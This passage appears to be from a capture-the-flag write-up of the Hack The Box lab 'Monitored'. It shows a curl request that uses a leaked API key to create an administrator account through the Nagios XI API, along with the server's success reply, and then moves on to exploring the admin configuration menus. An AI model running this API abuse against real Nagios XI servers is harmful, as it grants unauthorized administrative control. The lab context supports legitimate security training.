 I’ll try it with the parameters above:
```
curl -d "username=wither&password=wither&name=wither&email=wither@monitored.htb&auth_level=admin&force_pw_change=0" -k 'https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL'
{"success":"User account wither was added successfully!","user_id":6}
```
Then we can login in and get the license agreement page
![](images/Pasted%20image%2020250208225416.png)
Then we can login as admin and we can go to the label `admin`
There’s a ton to look at as an admin user. One interesting menu is under Configure -> Core Config Manager:
![](images/Pasted%20image%2020250208225643.png)